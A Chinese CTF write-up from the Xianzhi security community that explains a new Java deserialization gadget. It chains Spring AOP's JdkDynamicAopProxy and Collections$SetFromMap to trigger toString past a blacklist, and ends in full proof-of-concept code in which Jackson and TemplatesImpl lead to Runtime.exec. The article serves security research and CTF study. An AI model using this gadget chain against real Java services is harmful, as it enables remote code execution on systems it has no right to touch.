

# Spring-AOP下toString新触发-先知社区

> **来源**: https://xz.aliyun.com/news/17617  
> **文章ID**: 17617

---

## 前言

最近某个CTF线下赛的一道Java反序列化题，出现了很刁钻的黑名单  
首先想到的是Jackson调用getter打TemplatesImpl，但是toString的入口几乎都被ban了（如下所示）

```
javax.management.BadAttributeValueExpException
com.sun.org.apache.xpath.internal.objects.XString
javax.swing.event.EventListenerList
javax.swing.UIDefaults$TextAndMnemonicHashMap
java.util.HashMap
```

于是便有了下面的探索过程

## JdkDynamicAopProxy破局

`JdkDynamicAopProxy`这个类最初用于解决Jackson链的不稳定触发(<https://xz.aliyun.com/news/1229>)  
其实现了`InvocationHandler`，通过JDK的动态代理来实现AOP。具体来说，其接收一个`AdvisedSupport`对象作为自身的advised属性，这个对象有一个`targetSource`属性，包含了委托代理的目标对象，`TargetSource#getTarget`来获取目标对象。当代理对象调用方法时，会转交给调用处理器的invoke方法，最终就可以通过这个`targetSource`属性来调用实际目标对象所实现的方法。  
需要注意的是，若目标对象的接口没有定义equals或hashCode方法，则会直接调用`JdkDynamicAopProxy`自己定制的equals或hashCode

```
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {    
    if (!this.cache.equalsDefined && AopUtils.isEqualsMethod(method)) {  
      // The target does not implement the equals(Object) method itself.  
      return equals(args[0]);  
    }  
    else if (!this.cache.hashCodeDefined && AopUtils.isHashCodeMethod(method)) {  
      // The target does not implement the hashCode() method itself.  
      return hashCode();  
    }
}
```

接着往下走，若`advised`这个AOP配置对象中没有给当前调用的方法设置方法拦截器（chain为空），则直接调用目标对象实现的方法。

```
TargetSource targetSource = this.advised.targetSource;  
Object target = targetSource.getTarget();
Class<?> targetClass = (target != null ? target.getClass() : null);
List<Object> chain = this.advised.getInterceptorsAndDynamicInterceptionAdvice(method, targetClass);  
  
if (chain.isEmpty()) {  
    // We can skip creating a MethodInvocation: just invoke the target directly
    Object[] argsToUse = AopProxyUtils.adaptArgumentsIfNecessary(method, args);
    retVal = AopUtils.invokeJoinpointUsingReflection(target, method, argsToUse);  
}
```

`invokeJoinpointUsingReflection`直接用反射调用了方法（反射调用方法的三要素：接收对象target，方法Method，参数数组args）

```
public static Object invokeJoinpointUsingReflection(Object target, Method method, Object[] args)  
       throws Throwable {
    // Use reflection to invoke the method.  
    try {  
       ReflectionUtils.makeAccessible(method);  
       return method.invoke(target, args);  
    } 
    catch (IllegalArgumentException ex) {  
       throw new AopInvocationException("AOP configuration seems to be invalid: tried calling method [" +  
             method + "] on target [" + target + "]", ex);  
    } //...
}
```

注意到这里若抛出`IllegalArgumentException`异常，即可对target进行字符串拼接，进而触发target的toString  
这种报错之后进行对象拼接字符串来打印异常信息的操作也不是第一次见了，比如Dubbo的CVE-2021-43297(https://paper.seebug.org/1814/)，异常处理时进行了反序列化，并将反序列化得到的对象进行字符串拼接，隐式触发toString。  
那么问题来了，如何触发`IllegalArgumentException`异常呢，这里相对好控制的只有target，因为外部的方法调用的method和args都是相对固定的。  
结合JDK动态代理的特点，创建代理对象Proxy时传递了类加载器、接口数组、调用处理器，而target位于调用处理器中，InvocationHandler并不会检查这个target是否实现了接口定义的方法。因此不难想到只要委托代理的对象没有实现代理的接口中声明的方法，调用时就会抛出异常。  
可以简单验证一下：

```
Class<?> clz = Class.forName("java.lang.Runtime");  
Method exec = clz.getDeclaredMethod("exec", String.class);  
exec.invoke(1, "calc");
```

这里是对1这个对象进行调用Runtime的exec方法  
报错了`java.lang.IllegalArgumentException: object is not an instance of declaring class`  
因此现在只要找一个类的`readObject`方法对某个接口声明的方法进行了调用，创建代理对象时传入该接口即可。  
这里随便找了一个类`java.util.Collections$SetFromMap`，当然肯定还有其他利用类。

```
SetFromMap(Map<E, Boolean> map) {  
    if (!map.isEmpty())  
        throw new IllegalArgumentException("Map is non-empty");  
    m = map;  
    s = map.keySet();  
}

private void readObject(java.io.ObjectInputStream stream)  
    throws IOException, ClassNotFoundException {  
    stream.defaultReadObject();  
    s = m.keySet();  
}
```

构造函数传入一个空的Map，接着反射修改m为Proxy代理对象，readObject时调用`m.keySet`时触发`JdkDynamicAopProxy`的invoke方法

## POC编写

```
public static Object toStringProxy(Object o) throws Exception {  
    Map m = (Map) makeJdkDynamicAopProxy(o, new Class[]{Map.class});  
    Constructor<?> c = Class.forName("java.util.Collections$SetFromMap").getDeclaredConstructors()[0];  
    c.setAccessible(true);  
    Object map = c.newInstance(Collections.EMPTY_MAP);  
    setFieldValue(map, "m", m);  
    return map;  
}
```

这里以Jackson打TemplatesImpl为例

```
public static void main(String[] args) throws Exception {  
    CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind.node.BaseJsonNode");  
    CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");  
    ctClass.removeMethod(writeReplace);  
    ctClass.toClass();  
    POJONode node = new POJONode(makeJdkDynamicAopProxy(makeTemplatesImpl("open -a Calculator"), new Class[]{Templates.class}));  
      
    ser(toStringProxy(node));  
}

public static Object makeJdkDynamicAopProxy(Object o, Class[] interfaces) throws Exception {  
    AdvisedSupport advisedSupport = new AdvisedSupport();  
    advisedSupport.setTarget(o);  
    Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);  
    constructor.setAccessible(true);  
    InvocationHandler handler = (InvocationHandler) constructor.newInstance(advisedSupport);  
    return Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), interfaces, handler);  
}

public static Object makeTemplatesImpl(String cmd) throws Exception {  
    ClassPool pool = ClassPool.getDefault();  
    CtClass clazz = pool.makeClass("a");  
    CtClass superClass = pool.get(AbstractTranslet.class.getName());  
    clazz.setSuperclass(superClass);  
    CtConstructor constructor = new CtConstructor(new CtClass[]{}, clazz);  
    constructor.setBody("Runtime.getRuntime().exec(""+cmd+"");");  
    clazz.addConstructor(constructor);  
    byte[][] bytes = new byte[][]{clazz.toBytecode()};  
    TemplatesImpl templates = TemplatesImpl.class.newInstance();  
    setFieldValue(templates, "_bytecodes", bytes);  
    setFieldValue(templates, "_name", "test");  
    return templates;  
}

public static void setFieldValue(Object o, String name, Object value) throws Exception{  
    Field f = o.getClass().getDeclaredField(name);  
    f.setAccessible(true);  
    f.set(o, value);  
}  
  
public static void ser(Object o) throws Exception{  
    ByteArrayOutputStream baos = new ByteArrayOutputStream();  
    ObjectOutputStream oos = new ObjectOutputStream(baos);  
    oos.writeObject(o);  
    oos.close();  
  
    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));  
    ois.readObject();  
}
```


